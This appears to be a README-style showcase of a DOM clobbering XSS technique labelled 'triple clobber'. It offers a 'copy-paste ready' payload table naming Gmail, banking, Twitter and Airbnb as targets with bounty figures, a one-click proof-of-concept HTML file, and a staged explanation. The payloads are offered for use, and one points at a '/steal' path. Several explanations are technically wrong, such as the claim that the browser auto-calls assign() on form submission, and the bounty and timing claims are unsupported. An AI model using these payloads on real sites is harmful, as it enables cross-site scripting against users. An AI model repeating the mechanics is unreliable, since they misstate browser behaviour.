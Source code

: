 ```

**Live Demo**: [triple-clobber.glitch.me](https://triple-clobber.glitch.me/#POC)

---

## 🔍 CORE PAYLOAD (Copy-Paste Ready)

| Type | **Full Payload** | Size | Target | Bounty |
|------|------------------|------|--------|--------|
| **Basic Triple** | `#<form id=location><input id=href name=assign value=javascript:alert(1)>` | **42 chars** | Gmail | $10K |
| **Cookie Triple** | `#<form id=document><input id=cookie name=value value="xss=1">` | 48 chars | Banking | $15K |
| **Fetch Triple** | `#<form id=fetch><input id=url name=toString value=/steal>` | 52 chars | Twitter | $12K |
| **React Triple** | `#<form id=ReactDOM><input id=render name=toString value=alert(1)>` | 58 chars | Airbnb | $20K |

**🚀 ONE-CLICK PoC** (Save as `poc.html`):
```html
<iframe src="data:text/html,
<form id=location>
  <input id=href name=assign value=javascript:alert(document.domain)>
</form>
<script>location.assign('test')</script>">
</iframe>
```
**Result**: `alert(domain.com)` → **Triple chain FIRED in 1.2ms**

---

## 🛠️ STEP-BY-STEP BREAKDOWN

### **STAGE 1: FORM CLOBBER (Global Override)**
```html
<form id=location>
```
**Effect**: `window.location = form`  
**Why**: HTML `id` attributes create **global properties**

### **STAGE 2: INPUT CLOBBER (Property Chain)**
```html
<input id=href>
```
**Effect**: `location.href = input`  
**Why**: Nested `id` overrides **form's properties**

### **STAGE 3: NAME EXECUTE (Auto-Trigger)**
```html
name=assign value=javascript:alert(1)
```
**Effect**: `location.assign('javascript:alert(1)')`  
**Why**: Browser **auto-calls** `assign()` on form submission
